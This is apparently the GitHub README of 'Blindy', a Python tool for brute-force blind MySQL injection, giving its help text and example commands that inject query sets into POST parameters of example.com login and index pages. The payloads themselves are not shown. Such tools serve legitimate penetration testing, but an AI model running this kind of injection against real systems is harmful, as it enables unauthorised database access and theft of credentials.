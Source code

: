# Blindy
Simple script for running bruteforce blind MySql injection

The script will run through queries listed in sets in provided file (default-queries.json as default) and try to bruteforce places with `{}` placeholder. If no `{}` placeholder present, the script will simply make request with current query.


## command line
```bash
$ python3 blindy.py --help
usage: blindy.py [-h] [-f filename] [-m method] -p name -r regexp -u url
                 [-s set_of_queries]

Run blind sql injection with brutforce

optional arguments:
  -h, --help            show this help message and exit
  -f filename           File name for your commands in json format, defaults
                        to default-queries.json
  -m method, --method method
                        Where to inject (GET - get parameter/default, POST -
                        post parameter, HEADER - header)
  -p name               Name of parameter (for get - param name, post - param
                        name, for header - name of header). If params need to
                        have fixed value use -p submit=true
  -r regexp             Regular expression for negative pattern (script search
                        for the pattern and if present - will consider that
                        injection failed and igrone result.)
  -u url                Url to test
  -s set_of_queries, --set set_of_queries
                        Which set of queries to analyze from json file, for
                        ex. login, blind. Default to blind.
```

## Example usage

Bruteforce inject into POST `query_param`
```bash
python3 blindy.py -m POST -p query_param -p submit=1 -r 'Pattern\ to\ ignore\ result' -u http://example.com/index.php -s blind
```

Bruteforce inject into POST `query_param` with placeholder
```bash
python3 blindy.py -m POST -p "query_param=login {}" -p submit=1 -r 'Pattern\ to\ ignore\ result' -u http://example.com/index.php -s blind
```
This will inject the queries in a place of `{}` parameter placeholder


Simple check a list of queries against `username` parameter
```bash
python3 blindy.py -m POST -p username -p submit=1 -r 'Pattern\ to\ ignore\ result' -u http://example.com/login.php -s login
```

## Run tests:
```bash
python3 -m unittest blindy_test.py
```

